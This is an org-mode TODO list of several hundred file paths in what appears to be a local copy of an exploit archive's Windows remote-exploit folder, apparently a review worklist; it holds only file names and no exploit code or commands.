**** TODO file:/root/work/exploitdb/winremote/15333.txt
**** TODO file:/root/work/exploitdb/winremote/15336.txt
**** TODO file:/root/work/exploitdb/winremote/15337.py
**** TODO file:/root/work/exploitdb/winremote/15347.py
**** TODO file:/root/work/exploitdb/winremote/15349.txt
**** TODO file:/root/work/exploitdb/winremote/15352.html
**** TODO file:/root/work/exploitdb/winremote/15357.php
**** TODO file:/root/work/exploitdb/winremote/15358.txt
**** TODO file:/root/work/exploitdb/winremote/15368.php
**** TODO file:/root/work/exploitdb/winremote/1536.pm
**** TODO file:/root/work/exploitdb/winremote/15371.txt
**** TODO file:/root/work/exploitdb/winremote/15373.txt
**** TODO file:/root/work/exploitdb/winremote/1537.pm
**** TODO file:/root/work/exploitdb/winremote/15421.html
**** TODO file:/root/work/exploitdb/winremote/15427.txt
**** TODO file:/root/work/exploitdb/winremote/15437.txt
**** TODO file:/root/work/exploitdb/winremote/15438.txt
**** TODO file:/root/work/exploitdb/winremote/15445.txt
**** TODO file:/root/work/exploitdb/winremote/15450.txt
**** TODO file:/root/work/exploitdb/winremote/155.c
**** TODO file:/root/work/exploitdb/winremote/15600.html
**** TODO file:/root/work/exploitdb/winremote/15601.html
**** TODO file:/root/work/exploitdb/winremote/15648.html
**** TODO file:/root/work/exploitdb/winremote/15655.html
**** TODO file:/root/work/exploitdb/winremote/15658.rb
**** TODO file:/root/work/exploitdb/winremote/1565.pl
**** TODO file:/root/work/exploitdb/winremote/15668.html
**** TODO file:/root/work/exploitdb/winremote/15689.py
**** TODO file:/root/work/exploitdb/winremote/156.c
**** TODO file:/root/work/exploitdb/winremote/15733.html
**** TODO file:/root/work/exploitdb/winremote/15746.rb
**** TODO file:/root/work/exploitdb/winremote/157.c
**** TODO file:/root/work/exploitdb/winremote/15802.txt
**** TODO file:/root/work/exploitdb/winremote/15809.html
**** TODO file:/root/work/exploitdb/winremote/15834.py
**** TODO file:/root/work/exploitdb/winremote/15861.txt
**** TODO file:/root/work/exploitdb/winremote/15862.txt
**** TODO file:/root/work/exploitdb/winremote/15866.html
**** TODO file:/root/work/exploitdb/winremote/15868.pl
**** TODO file:/root/work/exploitdb/winremote/15869.txt
**** TODO file:/root/work/exploitdb/winremote/15885.html
**** TODO file:/root/work/exploitdb/winremote/158.c
**** TODO file:/root/work/exploitdb/winremote/1592.c
**** TODO file:/root/work/exploitdb/winremote/15957.py
**** TODO file:/root/work/exploitdb/winremote/15963.rb
**** TODO file:/root/work/exploitdb/winremote/15984.html
**** TODO file:/root/work/exploitdb/winremote/15991.html
**** TODO file:/root/work/exploitdb/winremote/159.c
**** TODO file:/root/work/exploitdb/winremote/16014.html
**** TODO file:/root/work/exploitdb/winremote/16036.rb
**** TODO file:/root/work/exploitdb/winremote/16052.txt
**** TODO file:/root/work/exploitdb/winremote/16053.txt
**** TODO file:/root/work/exploitdb/winremote/16055.txt
**** TODO file:/root/work/exploitdb/winremote/16056.txt
**** TODO file:/root/work/exploitdb/winremote/1606.html
**** TODO file:/root/work/exploitdb/winremote/16075.pl
**** TODO file:/root/work/exploitdb/winremote/16078.py
**** TODO file:/root/work/exploitdb/winremote/1607.cpp
**** TODO file:/root/work/exploitdb/winremote/16101.py
**** TODO file:/root/work/exploitdb/winremote/16105.txt
**** TODO file:/root/work/exploitdb/winremote/16145.pl
**** TODO file:/root/work/exploitdb/winremote/16176.pl
**** TODO file:/root/work/exploitdb/winremote/16177.py
**** TODO file:/root/work/exploitdb/winremote/1620.pm
**** TODO file:/root/work/exploitdb/winremote/16242.html
**** TODO file:/root/work/exploitdb/winremote/16259.
**** TODO file:/root/work/exploitdb/winremote/16259.txt
**** TODO file:/root/work/exploitdb/winremote/1626.pm
**** TODO file:/root/work/exploitdb/winremote/1628.cpp
**** TODO file:/root/work/exploitdb/winremote/16306.rb
**** TODO file:/root/work/exploitdb/winremote/16331.rb
**** TODO file:/root/work/exploitdb/winremote/16332.rb
**** TODO file:/root/work/exploitdb/winremote/16333.rb
**** TODO file:/root/work/exploitdb/winremote/16334.rb
**** TODO file:/root/work/exploitdb/winremote/16335.rb
**** TODO file:/root/work/exploitdb/winremote/16336.rb
**** TODO file:/root/work/exploitdb/winremote/16337.rb
**** TODO file:/root/work/exploitdb/winremote/16338.rb
**** TODO file:/root/work/exploitdb/winremote/16339.rb
**** TODO file:/root/work/exploitdb/winremote/16340.rb
**** TODO file:/root/work/exploitdb/winremote/16341.rb
**** TODO file:/root/work/exploitdb/winremote/16342.rb
**** TODO file:/root/work/exploitdb/winremote/16343.rb
**** TODO file:/root/work/exploitdb/winremote/16344.rb
**** TODO file:/root/work/exploitdb/winremote/16345.rb
**** TODO file:/root/work/exploitdb/winremote/16346.rb
**** TODO file:/root/work/exploitdb/winremote/16347.rb
**** TODO file:/root/work/exploitdb/winremote/16348.rb
**** TODO file:/root/work/exploitdb/winremote/16349.rb
**** TODO file:/root/work/exploitdb/winremote/16350.rb
**** TODO file:/root/work/exploitdb/winremote/16351.rb
**** TODO file:/root/work/exploitdb/winremote/16352.rb
**** TODO file:/root/work/exploitdb/winremote/16353.rb
**** TODO file:/root/work/exploitdb/winremote/16354.rb
**** TODO file:/root/work/exploitdb/winremote/16355.rb
**** TODO file:/root/work/exploitdb/winremote/16356.rb
**** TODO file:/root/work/exploitdb/winremote/16357.rb
**** TODO file:/root/work/exploitdb/winremote/16358.rb
**** TODO file:/root/work/exploitdb/winremote/16359.rb
**** TODO file:/root/work/exploitdb/winremote/16360.rb
**** TODO file:/root/work/exploitdb/winremote/16361.rb
**** TODO file:/root/work/exploitdb/winremote/16362.rb
**** TODO file:/root/work/exploitdb/winremote/16363.rb
**** TODO file:/root/work/exploitdb/winremote/16364.rb
**** TODO file:/root/work/exploitdb/winremote/16366.rb
**** TODO file:/root/work/exploitdb/winremote/16367.rb
**** TODO file:/root/work/exploitdb/winremote/16368.rb
**** TODO file:/root/work/exploitdb/winremote/16369.rb
**** TODO file:/root/work/exploitdb/winremote/16370.rb
**** TODO file:/root/work/exploitdb/winremote/16371.rb
**** TODO file:/root/work/exploitdb/winremote/16372.rb
**** TODO file:/root/work/exploitdb/winremote/16373.rb
**** TODO file:/root/work/exploitdb/winremote/16374.rb
**** TODO file:/root/work/exploitdb/winremote/16375.rb
**** TODO file:/root/work/exploitdb/winremote/16376.rb
**** TODO file:/root/work/exploitdb/winremote/16377.rb
**** TODO file:/root/work/exploitdb/winremote/16378.rb
**** TODO file:/root/work/exploitdb/winremote/16379.rb
**** TODO file:/root/work/exploitdb/winremote/16380.rb
**** TODO file:/root/work/exploitdb/winremote/16381.rb
**** TODO file:/root/work/exploitdb/winremote/16382.rb
**** TODO file:/root/work/exploitdb/winremote/16383.rb
**** TODO file:/root/work/exploitdb/winremote/16384.rb
**** TODO file:/root/work/exploitdb/winremote/16385.rb
**** TODO file:/root/work/exploitdb/winremote/16386.rb
**** TODO file:/root/work/exploitdb/winremote/16389.rb
**** TODO file:/root/work/exploitdb/winremote/16390.rb
**** TODO file:/root/work/exploitdb/winremote/16391.rb
**** TODO file:/root/work/exploitdb/winremote/16392.rb
**** TODO file:/root/work/exploitdb/winremote/16393.rb
**** TODO file:/root/work/exploitdb/winremote/16394.rb
**** TODO file:/root/work/exploitdb/winremote/16395.rb
**** TODO file:/root/work/exploitdb/winremote/16396.rb
**** TODO file:/root/work/exploitdb/winremote/16397.rb
**** TODO file:/root/work/exploitdb/winremote/16398.rb
**** TODO file:/root/work/exploitdb/winremote/16399.rb
**** TODO file:/root/work/exploitdb/winremote/163.pl
**** TODO file:/root/work/exploitdb/winremote/16400.rb
**** TODO file:/root/work/exploitdb/winremote/16401.rb
**** TODO file:/root/work/exploitdb/winremote/16402.rb
**** TODO file:/root/work/exploitdb/winremote/16403.rb
**** TODO file:/root/work/exploitdb/winremote/16404.rb
**** TODO file:/root/work/exploitdb/winremote/16405.rb
**** TODO file:/root/work/exploitdb/winremote/16406.rb
**** TODO file:/root/work/exploitdb/winremote/16407.rb
**** TODO file:/root/work/exploitdb/winremote/16408.rb
**** TODO file:/root/work/exploitdb/winremote/16409.rb
**** TODO file:/root/work/exploitdb/winremote/16410.rb
**** TODO file:/root/work/exploitdb/winremote/16411.rb
**** TODO file:/root/work/exploitdb/winremote/16412.rb
**** TODO file:/root/work/exploitdb/winremote/16413.rb
**** TODO file:/root/work/exploitdb/winremote/16414.rb
**** TODO file:/root/work/exploitdb/winremote/16415.rb
**** TODO file:/root/work/exploitdb/winremote/16416.rb
**** TODO file:/root/work/exploitdb/winremote/16417.rb
**** TODO file:/root/work/exploitdb/winremote/16418.rb
**** TODO file:/root/work/exploitdb/winremote/16419.rb
**** TODO file:/root/work/exploitdb/winremote/16420.rb
**** TODO file:/root/work/exploitdb/winremote/16421.rb
**** TODO file:/root/work/exploitdb/winremote/16422.rb
**** TODO file:/root/work/exploitdb/winremote/16423.rb
**** TODO file:/root/work/exploitdb/winremote/16424.rb
**** TODO file:/root/work/exploitdb/winremote/16425.rb
**** TODO file:/root/work/exploitdb/winremote/16426.rb
**** TODO file:/root/work/exploitdb/winremote/16427.rb
**** TODO file:/root/work/exploitdb/winremote/16428.rb
**** TODO file:/root/work/exploitdb/winremote/16429.rb
**** TODO file:/root/work/exploitdb/winremote/16430.rb
**** TODO file:/root/work/exploitdb/winremote/16431.rb
**** TODO file:/root/work/exploitdb/winremote/16432.rb
**** TODO file:/root/work/exploitdb/winremote/16433.rb
**** TODO file:/root/work/exploitdb/winremote/16434.rb
**** TODO file:/root/work/exploitdb/winremote/16435.rb
**** TODO file:/root/work/exploitdb/winremote/16436.rb
**** TODO file:/root/work/exploitdb/winremote/16437.rb
**** TODO file:/root/work/exploitdb/winremote/16438.rb
**** TODO file:/root/work/exploitdb/winremote/16439.rb
**** TODO file:/root/work/exploitdb/winremote/16440.rb
**** TODO file:/root/work/exploitdb/winremote/16441.rb
**** TODO file:/root/work/exploitdb/winremote/16442.rb
**** TODO file:/root/work/exploitdb/winremote/16443.rb
**** TODO file:/root/work/exploitdb/winremote/16444.rb
**** TODO file:/root/work/exploitdb/winremote/16445.rb
**** TODO file:/root/work/exploitdb/winremote/16446.rb
**** TODO file:/root/work/exploitdb/winremote/16447.rb
**** TODO file:/root/work/exploitdb/winremote/16448.rb
**** TODO file:/root/work/exploitdb/winremote/16449.rb
**** TODO file:/root/work/exploitdb/winremote/16450.rb
**** TODO file:/root/work/exploitdb/winremote/16451.rb
**** TODO file:/root/work/exploitdb/winremote/16452.rb
**** TODO file:/root/work/exploitdb/winremote/16453.rb
**** TODO file:/root/work/exploitdb/winremote/16454.rb
**** TODO file:/root/work/exploitdb/winremote/16455.rb
**** TODO file:/root/work/exploitdb/winremote/16456.rb
**** TODO file:/root/work/exploitdb/winremote/16457.rb
**** TODO file:/root/work/exploitdb/winremote/16458.rb
**** TODO file:/root/work/exploitdb/winremote/16459.rb
**** TODO file:/root/work/exploitdb/winremote/16460.rb
**** TODO file:/root/work/exploitdb/winremote/16461.rb
**** TODO file:/root/work/exploitdb/winremote/16462.rb
**** TODO file:/root/work/exploitdb/winremote/16463.rb
**** TODO file:/root/work/exploitdb/winremote/16464.rb
**** TODO file:/root/work/exploitdb/winremote/16465.rb
**** TODO file:/root/work/exploitdb/winremote/16467.rb
**** TODO file:/root/work/exploitdb/winremote/16468.rb
**** TODO file:/root/work/exploitdb/winremote/16469.rb
**** TODO file:/root/work/exploitdb/winremote/16470.rb
**** TODO file:/root/work/exploitdb/winremote/16471.rb
**** TODO file:/root/work/exploitdb/winremote/16472.rb
**** TODO file:/root/work/exploitdb/winremote/16473.rb
**** TODO file:/root/work/exploitdb/winremote/16474.rb
**** TODO file:/root/work/exploitdb/winremote/16475.rb
**** TODO file:/root/work/exploitdb/winremote/16476.rb
**** TODO file:/root/work/exploitdb/winremote/16477.rb
**** TODO file:/root/work/exploitdb/winremote/16478.rb
**** TODO file:/root/work/exploitdb/winremote/16479.rb
**** TODO file:/root/work/exploitdb/winremote/16480.rb
**** TODO file:/root/work/exploitdb/winremote/16481.rb
**** TODO file:/root/work/exploitdb/winremote/16482.rb
**** TODO file:/root/work/exploitdb/winremote/16483.rb
**** TODO file:/root/work/exploitdb/winremote/16484.rb
**** TODO file:/root/work/exploitdb/winremote/16485.rb
**** TODO file:/root/work/exploitdb/winremote/16486.rb
**** TODO file:/root/work/exploitdb/winremote/16487.rb
**** TODO file:/root/work/exploitdb/winremote/16488.rb
**** TODO file:/root/work/exploitdb/winremote/16489.rb
**** TODO file:/root/work/exploitdb/winremote/16490.rb
**** TODO file:/root/work/exploitdb/winremote/16491.rb
**** TODO file:/root/work/exploitdb/winremote/16492.rb
**** TODO file:/root/work/exploitdb/winremote/16493.rb
**** TODO file:/root/work/exploitdb/winremote/16494.rb
**** TODO file:/root/work/exploitdb/winremote/16496.rb
**** TODO file:/root/work/exploitdb/winremote/16497.rb
**** TODO file:/root/work/exploitdb/winremote/16498.rb
**** TODO file:/root/work/exploitdb/winremote/16499.rb
**** TODO file:/root/work/exploitdb/winremote/164.c
**** TODO file:/root/work/exploitdb/winremote/16500.rb
**** TODO file:/root/work/exploitdb/winremote/16501.rb
**** TODO file:/root/work/exploitdb/winremote/16502.rb
**** TODO file:/root/work/exploitdb/winremote/16505.rb
**** TODO file:/root/work/exploitdb/winremote/16506.rb
**** TODO file:/root/work/exploitdb/winremote/16507.rb
**** TODO file:/root/work/exploitdb/winremote/16508.rb
**** TODO file:/root/work/exploitdb/winremote/16509.rb
**** TODO file:/root/work/exploitdb/winremote/16510.rb
**** TODO file:/root/work/exploitdb/winremote/16511.rb
**** TODO file:/root/work/exploitdb/winremote/16512.rb
**** TODO file:/root/work/exploitdb/winremote/16513.rb
**** TODO file:/root/work/exploitdb/winremote/16514.rb
**** TODO file:/root/work/exploitdb/winremote/16515.rb
**** TODO file:/root/work/exploitdb/winremote/16516.rb
**** TODO file:/root/work/exploitdb/winremote/16517.rb
**** TODO file:/root/work/exploitdb/winremote/16518.rb
**** TODO file:/root/work/exploitdb/winremote/16519.rb
**** TODO file:/root/work/exploitdb/winremote/16520.rb
**** TODO file:/root/work/exploitdb/winremote/16521.rb
**** TODO file:/root/work/exploitdb/winremote/16522.rb
**** TODO file:/root/work/exploitdb/winremote/16523.rb
**** TODO file:/root/work/exploitdb/winremote/16524.rb
**** TODO file:/root/work/exploitdb/winremote/16525.rb
**** TODO file:/root/work/exploitdb/winremote/16526.rb
**** TODO file:/root/work/exploitdb/winremote/16527.rb
**** TODO file:/root/work/exploitdb/winremote/16528.rb
**** TODO file:/root/work/exploitdb/winremote/16529.rb
**** TODO file:/root/work/exploitdb/winremote/16530.rb
**** TODO file:/root/work/exploitdb/winremote/16532.rb
**** TODO file:/root/work/exploitdb/winremote/16533.rb
**** TODO file:/root/work/exploitdb/winremote/16534.rb
**** TODO file:/root/work/exploitdb/winremote/16535.rb
**** TODO file:/root/work/exploitdb/winremote/16536.rb
**** TODO file:/root/work/exploitdb/winremote/16537.rb
**** TODO file:/root/work/exploitdb/winremote/16538.rb
**** TODO file:/root/work/exploitdb/winremote/16539.rb
**** TODO file:/root/work/exploitdb/winremote/16540.rb
**** TODO file:/root/work/exploitdb/winremote/16541.rb
**** TODO file:/root/work/exploitdb/winremote/16543.rb
**** TODO file:/root/work/exploitdb/winremote/16544.rb
**** TODO file:/root/work/exploitdb/winremote/16545.rb
**** TODO file:/root/work/exploitdb/winremote/16547.rb
**** TODO file:/root/work/exploitdb/winremote/16548.rb
**** TODO file:/root/work/exploitdb/winremote/16549.rb
**** TODO file:/root/work/exploitdb/winremote/16550.rb
**** TODO file:/root/work/exploitdb/winremote/16551.rb
**** TODO file:/root/work/exploitdb/winremote/16552.rb
**** TODO file:/root/work/exploitdb/winremote/16553.rb
**** TODO file:/root/work/exploitdb/winremote/16554.rb
**** TODO file:/root/work/exploitdb/winremote/16555.rb
**** TODO file:/root/work/exploitdb/winremote/16557.rb
**** TODO file:/root/work/exploitdb/winremote/16558.rb
**** TODO file:/root/work/exploitdb/winremote/16559.rb
**** TODO file:/root/work/exploitdb/winremote/16560.rb
**** TODO file:/root/work/exploitdb/winremote/16561.rb
**** TODO file:/root/work/exploitdb/winremote/16563.rb
**** TODO file:/root/work/exploitdb/winremote/16564.rb
**** TODO file:/root/work/exploitdb/winremote/16565.rb
**** TODO file:/root/work/exploitdb/winremote/16566.rb
**** TODO file:/root/work/exploitdb/winremote/16567.rb
**** TODO file:/root/work/exploitdb/winremote/16568.rb
**** TODO file:/root/work/exploitdb/winremote/16569.rb
**** TODO file:/root/work/exploitdb/winremote/16570.rb
**** TODO file:/root/work/exploitdb/winremote/16571.rb
**** TODO file:/root/work/exploitdb/winremote/16572.rb
**** TODO file:/root/work/exploitdb/winremote/16573.rb
**** TODO file:/root/work/exploitdb/winremote/16574.rb
**** TODO file:/root/work/exploitdb/winremote/16575.rb
**** TODO file:/root/work/exploitdb/winremote/16576.rb
**** TODO file:/root/work/exploitdb/winremote/16577.rb
**** TODO file:/root/work/exploitdb/winremote/16578.rb
**** TODO file:/root/work/exploitdb/winremote/16579.rb
**** TODO file:/root/work/exploitdb/winremote/16580.rb
**** TODO file:/root/work/exploitdb/winremote/16581.rb
**** TODO file:/root/work/exploitdb/winremote/16582.rb
**** TODO file:/root/work/exploitdb/winremote/16583.rb
**** TODO file:/root/work/exploitdb/winremote/16584.rb
**** TODO file:/root/work/exploitdb/winremote/16585.rb
**** TODO file:/root/work/exploitdb/winremote/16586.rb
**** TODO file:/root/work/exploitdb/winremote/16587.rb
**** TODO file:/root/work/exploitdb/winremote/16588.rb
**** TODO file:/root/work/exploitdb/winremote/16590.rb
**** TODO file:/root/work/exploitdb/winremote/16591.rb
**** TODO file:/root/work/exploitdb/winremote/16592.rb
**** TODO file:/root/work/exploitdb/winremote/16594.rb
**** TODO file:/root/work/exploitdb/winremote/16595.rb
**** TODO file:/root/work/exploitdb/winremote/16596.rb
**** TODO file:/root/work/exploitdb/winremote/16597.rb
**** TODO file:/root/work/exploitdb/winremote/16598.rb
**** TODO file:/root/work/exploitdb/winremote/16599.rb
**** TODO file:/root/work/exploitdb/winremote/165.c
**** TODO file:/root/work/exploitdb/winremote/16600.rb
**** TODO file:/root/work/exploitdb/winremote/16601.rb
**** TODO file:/root/work/exploitdb/winremote/16602.rb
**** TODO file:/root/work/exploitdb/winremote/16603.rb
**** TODO file:/root/work/exploitdb/winremote/16604.rb
**** TODO file:/root/work/exploitdb/winremote/16605.rb
**** TODO file:/root/work/exploitdb/winremote/16607.rb
**** TODO file:/root/work/exploitdb/winremote/16608.rb
**** TODO file:/root/work/exploitdb/winremote/16609.rb
**** TODO file:/root/work/exploitdb/winremote/16610.rb
**** TODO file:/root/work/exploitdb/winremote/16611.rb
**** TODO file:/root/work/exploitdb/winremote/16612.rb
**** TODO file:/root/work/exploitdb/winremote/16613.rb
**** TODO file:/root/work/exploitdb/winremote/16616.rb
**** TODO file:/root/work/exploitdb/winremote/16630.rb
**** TODO file:/root/work/exploitdb/winremote/16635.rb
**** TODO file:/root/work/exploitdb/winremote/16638.rb
**** TODO file:/root/work/exploitdb/winremote/16639.rb
**** TODO file:/root/work/exploitdb/winremote/16641.rb
**** TODO file:/root/work/exploitdb/winremote/16647.rb
**** TODO file:/root/work/exploitdb/winremote/16649.rb
**** TODO file:/root/work/exploitdb/winremote/1664.py
**** TODO file:/root/work/exploitdb/winremote/16685.rb
**** TODO file:/root/work/exploitdb/winremote/16689.rb
**** TODO file:/root/work/exploitdb/winremote/16690.rb
**** TODO file:/root/work/exploitdb/winremote/16691.rb
**** TODO file:/root/work/exploitdb/winremote/16692.rb
**** TODO file:/root/work/exploitdb/winremote/16693.rb
**** TODO file:/root/work/exploitdb/winremote/16694.rb
**** TODO file:/root/work/exploitdb/winremote/16695.rb
**** TODO file:/root/work/exploitdb/winremote/16696.rb
**** TODO file:/root/work/exploitdb/winremote/16697.rb
**** TODO file:/root/work/exploitdb/winremote/16698.rb
**** TODO file:/root/work/exploitdb/winremote/16699.rb
**** TODO file:/root/work/exploitdb/winremote/166.pl
**** TODO file:/root/work/exploitdb/winremote/16700.rb
**** TODO file:/root/work/exploitdb/winremote/16701.rb
**** TODO file:/root/work/exploitdb/winremote/16702.rb
**** TODO file:/root/work/exploitdb/winremote/16703.rb
**** TODO file:/root/work/exploitdb/winremote/16704.rb
**** TODO file:/root/work/exploitdb/winremote/16705.rb
**** TODO file:/root/work/exploitdb/winremote/16706.rb
**** TODO file:/root/work/exploitdb/winremote/16707.rb
**** TODO file:/root/work/exploitdb/winremote/16708.rb
**** TODO file:/root/work/exploitdb/winremote/16709.rb
**** TODO file:/root/work/exploitdb/winremote/16710.rb
**** TODO file:/root/work/exploitdb/winremote/16711.rb
**** TODO file:/root/work/exploitdb/winremote/16712.rb
**** TODO file:/root/work/exploitdb/winremote/16713.rb
**** TODO file:/root/work/exploitdb/winremote/16714.rb
**** TODO file:/root/work/exploitdb/winremote/16715.rb
**** TODO file:/root/work/exploitdb/winremote/16716.rb
**** TODO file:/root/work/exploitdb/winremote/16717.rb
**** TODO file:/root/work/exploitdb/winremote/16718.rb
**** TODO file:/root/work/exploitdb/winremote/16719.rb
**** TODO file:/root/work/exploitdb/winremote/16720.rb
**** TODO file:/root/work/exploitdb/winremote/16721.rb
**** TODO file:/root/work/exploitdb/winremote/16722.rb
**** TODO file:/root/work/exploitdb/winremote/16723.rb
**** TODO file:/root/work/exploitdb/winremote/16724.rb
**** TODO file:/root/work/exploitdb/winremote/16725.rb
**** TODO file:/root/work/exploitdb/winremote/16726.rb
**** TODO file:/root/work/exploitdb/winremote/16727.rb
**** TODO file:/root/work/exploitdb/winremote/16728.rb
**** TODO file:/root/work/exploitdb/winremote/16729.rb
**** TODO file:/root/work/exploitdb/winremote/16730.rb
**** TODO file:/root/work/exploitdb/winremote/16732.rb
**** TODO file:/root/work/exploitdb/winremote/16733.rb
**** TODO file:/root/work/exploitdb/winremote/16734.rb
**** TODO file:/root/work/exploitdb/winremote/16735.rb
**** TODO file:/root/work/exploitdb/winremote/16736.rb
**** TODO file:/root/work/exploitdb/winremote/16737.rb
**** TODO file:/root/work/exploitdb/winremote/16738.rb
**** TODO file:/root/work/exploitdb/winremote/16739.rb
**** TODO file:/root/work/exploitdb/winremote/16740.rb
**** TODO file:/root/work/exploitdb/winremote/16741.rb
**** TODO file:/root/work/exploitdb/winremote/16742.rb
**** TODO file:/root/work/exploitdb/winremote/16743.rb
**** TODO file:/root/work/exploitdb/winremote/16744.rb
**** TODO file:/root/work/exploitdb/winremote/16745.rb
**** TODO file:/root/work/exploitdb/winremote/16746.rb
**** TODO file:/root/work/exploitdb/winremote/16747.rb
**** TODO file:/root/work/exploitdb/winremote/16748.rb
**** TODO file:/root/work/exploitdb/winremote/16749.rb
**** TODO file:/root/work/exploitdb/winremote/16750.rb
**** TODO file:/root/work/exploitdb/winremote/16752.rb
**** TODO file:/root/work/exploitdb/winremote/16753.rb
**** TODO file:/root/work/exploitdb/winremote/16754.rb
**** TODO file:/root/work/exploitdb/winremote/16755.rb
**** TODO file:/root/work/exploitdb/winremote/16756.rb
**** TODO file:/root/work/exploitdb/winremote/16757.rb
**** TODO file:/root/work/exploitdb/winremote/16758.rb
**** TODO file:/root/work/exploitdb/winremote/16760.rb
**** TODO file:/root/work/exploitdb/winremote/16761.rb
**** TODO file:/root/work/exploitdb/winremote/16762.rb
**** TODO file:/root/work/exploitdb/winremote/16764.rb
**** TODO file:/root/work/exploitdb/winremote/16765.rb
**** TODO file:/root/work/exploitdb/winremote/16766.rb
**** TODO file:/root/work/exploitdb/winremote/16767.rb
**** TODO file:/root/work/exploitdb/winremote/16768.rb
**** TODO file:/root/work/exploitdb/winremote/16769.rb
**** TODO file:/root/work/exploitdb/winremote/16771.rb
**** TODO file:/root/work/exploitdb/winremote/16772.rb
**** TODO file:/root/work/exploitdb/winremote/16773.rb
**** TODO file:/root/work/exploitdb/winremote/16774.rb
**** TODO file:/root/work/exploitdb/winremote/16776.rb
**** TODO file:/root/work/exploitdb/winremote/16777.rb
**** TODO file:/root/work/exploitdb/winremote/16778.rb
**** TODO file:/root/work/exploitdb/winremote/16779.rb
**** TODO file:/root/work/exploitdb/winremote/16781.rb
**** TODO file:/root/work/exploitdb/winremote/16782.rb
**** TODO file:/root/work/exploitdb/winremote/16785.rb
**** TODO file:/root/work/exploitdb/winremote/16786.rb
**** TODO file:/root/work/exploitdb/winremote/16787.rb
**** TODO file:/root/work/exploitdb/winremote/16791.rb
**** TODO file:/root/work/exploitdb/winremote/16792.rb
**** TODO file:/root/work/exploitdb/winremote/16793.rb
**** TODO file:/root/work/exploitdb/winremote/16794.rb
**** TODO file:/root/work/exploitdb/winremote/16796.rb
**** TODO file:/root/work/exploitdb/winremote/16797.rb
**** TODO file:/root/work/exploitdb/winremote/16798.rb
**** TODO file:/root/work/exploitdb/winremote/16799.rb
**** TODO file:/root/work/exploitdb/winremote/16800.rb
**** TODO file:/root/work/exploitdb/winremote/16801.rb
**** TODO file:/root/work/exploitdb/winremote/16802.rb
**** TODO file:/root/work/exploitdb/winremote/16803.rb
**** TODO file:/root/work/exploitdb/winremote/16804.rb
**** TODO file:/root/work/exploitdb/winremote/16805.rb
**** TODO file:/root/work/exploitdb/winremote/16806.rb
**** TODO file:/root/work/exploitdb/winremote/16807.rb
**** TODO file:/root/work/exploitdb/winremote/16808.rb
**** TODO file:/root/work/exploitdb/winremote/16810.rb
**** TODO file:/root/work/exploitdb/winremote/16812.rb
**** TODO file:/root/work/exploitdb/winremote/16813.rb
**** TODO file:/root/work/exploitdb/winremote/16814.rb
**** TODO file:/root/work/exploitdb/winremote/16815.rb
**** TODO file:/root/work/exploitdb/winremote/16816.rb
**** TODO file:/root/work/exploitdb/winremote/16817.rb
**** TODO file:/root/work/exploitdb/winremote/16818.rb
**** TODO file:/root/work/exploitdb/winremote/16819.rb
**** TODO file:/root/work/exploitdb/winremote/1681.pm
**** TODO file:/root/work/exploitdb/winremote/16820.rb
**** TODO file:/root/work/exploitdb/winremote/16821.rb
**** TODO file:/root/work/exploitdb/winremote/16822.rb
**** TODO file:/root/work/exploitdb/winremote/16823.rb
**** TODO file:/root/work/exploitdb/winremote/16824.rb
**** TODO file:/root/work/exploitdb/winremote/16825.rb
**** TODO file:/root/work/exploitdb/winremote/16826.rb
**** TODO file:/root/work/exploitdb/winremote/16827.rb
**** TODO file:/root/work/exploitdb/winremote/16828.rb
**** TODO file:/root/work/exploitdb/winremote/16829.rb
**** TODO file:/root/work/exploitdb/winremote/16830.rb
**** TODO file:/root/work/exploitdb/winremote/16831.rb
**** TODO file:/root/work/exploitdb/winremote/168.c
**** TODO file:/root/work/exploitdb/winremote/16926.rb
**** TODO file:/root/work/exploitdb/winremote/16936.html
**** TODO file:/root/work/exploitdb/winremote/16956.rb
**** TODO file:/root/work/exploitdb/winremote/16957.rb
**** TODO file:/root/work/exploitdb/winremote/16970.rb
**** TODO file:/root/work/exploitdb/winremote/16983.rb
**** TODO file:/root/work/exploitdb/winremote/16984.rb
**** TODO file:/root/work/exploitdb/winremote/16998.rb
**** TODO file:/root/work/exploitdb/winremote/17022.txt
**** TODO file:/root/work/exploitdb/winremote/17024.txt
**** TODO file:/root/work/exploitdb/winremote/17027.rb
**** TODO file:/root/work/exploitdb/winremote/17028.rb
**** TODO file:/root/work/exploitdb/winremote/17029.rb
**** TODO file:/root/work/exploitdb/winremote/17030.rb
**** TODO file:/root/work/exploitdb/winremote/17034.py
**** TODO file:/root/work/exploitdb/winremote/17037.rb
**** TODO file:/root/work/exploitdb/winremote/17038.rb
**** TODO file:/root/work/exploitdb/winremote/17039.rb
**** TODO file:/root/work/exploitdb/winremote/1703.pl
**** TODO file:/root/work/exploitdb/winremote/17040.rb
**** TODO file:/root/work/exploitdb/winremote/17041.rb
**** TODO file:/root/work/exploitdb/winremote/17042.rb
**** TODO file:/root/work/exploitdb/winremote/17043.rb
**** TODO file:/root/work/exploitdb/winremote/17044.rb
**** TODO file:/root/work/exploitdb/winremote/17047.rb
**** TODO file:/root/work/exploitdb/winremote/17048.rb
**** TODO file:/root/work/exploitdb/winremote/17053.txt
**** TODO file:/root/work/exploitdb/winremote/17063.txt
**** TODO file:/root/work/exploitdb/winremote/17104.txt
**** TODO file:/root/work/exploitdb/winremote/17105.txt
**** TODO file:/root/work/exploitdb/winremote/17149.rb
**** TODO file:/root/work/exploitdb/winremote/17151.rb
**** TODO file:/root/work/exploitdb/winremote/17152.rb
**** TODO file:/root/work/exploitdb/winremote/17155.py
**** TODO file:/root/work/exploitdb/winremote/17156.txt
**** TODO file:/root/work/exploitdb/winremote/17175.rb
**** TODO file:/root/work/exploitdb/winremote/17187.txt
**** TODO file:/root/work/exploitdb/winremote/17195.rb
**** TODO file:/root/work/exploitdb/winremote/17219.rb
**** TODO file:/root/work/exploitdb/winremote/17240.html
**** TODO file:/root/work/exploitdb/winremote/17243.txt
**** TODO file:/root/work/exploitdb/winremote/17252.rb
**** TODO file:/root/work/exploitdb/winremote/17268.rb
**** TODO file:/root/work/exploitdb/winremote/17269.rb
**** TODO file:/root/work/exploitdb/winremote/17300.rb
**** TODO file:/root/work/exploitdb/winremote/17304.txt
**** TODO file:/root/work/exploitdb/winremote/17328.html
**** TODO file:/root/work/exploitdb/winremote/17339.py
**** TODO file:/root/work/exploitdb/winremote/17345.py
**** TODO file:/root/work/exploitdb/winremote/17352.rb
**** TODO file:/root/work/exploitdb/winremote/17354.py
**** TODO file:/root/work/exploitdb/winremote/17355.rb
**** TODO file:/root/work/exploitdb/winremote/17359.pl
**** TODO file:/root/work/exploitdb/winremote/17361.py
**** TODO file:/root/work/exploitdb/winremote/17365.py
